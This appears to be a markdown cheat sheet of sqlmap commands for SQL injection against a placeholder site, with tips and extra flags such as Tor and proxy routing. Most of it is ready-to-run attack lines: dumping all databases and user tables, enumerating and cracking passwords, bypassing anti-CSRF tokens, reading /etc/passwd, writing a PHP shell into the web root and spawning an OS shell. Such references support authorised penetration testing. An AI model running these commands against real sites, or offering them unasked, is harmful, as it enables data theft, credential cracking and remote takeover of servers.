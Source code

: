 | `sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs` | Dump all databases excluding system databases |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration (version, current user/database name, if the current user has admin rights) |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration, specifying database name |
| `sqlmap -u "http://www.example.com/?id=1" --dump -D testdb` | Dump all tables |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb` | Dump whole table, specifying table and database name |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Only dump specified columns |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3` | Only dump specified rows |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --schema` | Database schema enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user` | Searching for all tables containing user |
| `sqlmap -u "http://www.example.com/?id=1" --search -C pass` | Searching for all columns containing pass |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user` | Searching for all tables containing user |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass |
| `sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp` | Unique value bypass |
| `sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()"` | Calculated parameter bypass |
| `sqlmap --list-tampers` | List all tamper scripts |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell` | Spawning an OS shell |

## Tips

- Increase risk when testing login forms to use OR payloads
- The '--all' switch in combination with the '--batch' switch, will automaically do the whole enumeration process on the target itself, and provide the entire enumeration details. 

## Additional Flags

| Flag | Description |
|------|-------------|
| `--crawl`, `--forms` or `-g` | Used for automatic parameter finding |
| `--parse-errors` | Display errors |
| `--proxy` | Send requests through a proxy like burp |
| `--proxy-file` | work sequentially through a list of proxies |
| `--tor` | Use tor as a proxy, needs tor running locally |
| `--check-tor` | Check tor proxy configured correctly |
| `--code=200` | Test for specific HTTP response code |
| `--titles` | Base comparison on the content of the `<title>` tag |
| `--string=success` | Check for specific string value in response |